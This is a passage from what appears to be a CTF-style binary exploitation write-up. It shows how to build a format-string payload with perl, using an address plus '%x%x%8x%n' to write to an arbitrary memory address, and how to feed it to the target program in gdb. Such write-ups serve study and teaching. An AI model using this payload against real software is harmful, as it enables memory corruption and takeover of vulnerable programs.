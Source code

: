 Now we need to forge a payload that is able to write into an abritrary memory address.

In gdb peda, ASLR is always turned off, so in gdb we have always the same memory addresses. In mine, choice variable was always in 0x804b160.
Check this:

```bash
$ perl -e 'print pack("I", 0x804b160) . "AAAA" . "%x%x%8x%n"' > /tmp/payload.txt
```

Now you can run the following in gdb:

```bash
gdb> r < /tmp/payload.txt
```

This will automatically use our payload in fgets() when the time comes.

Now observe the address 0x804b160 before vnsprintf is run by the program.

![Screenshot](/assets/pwn2-08.png)
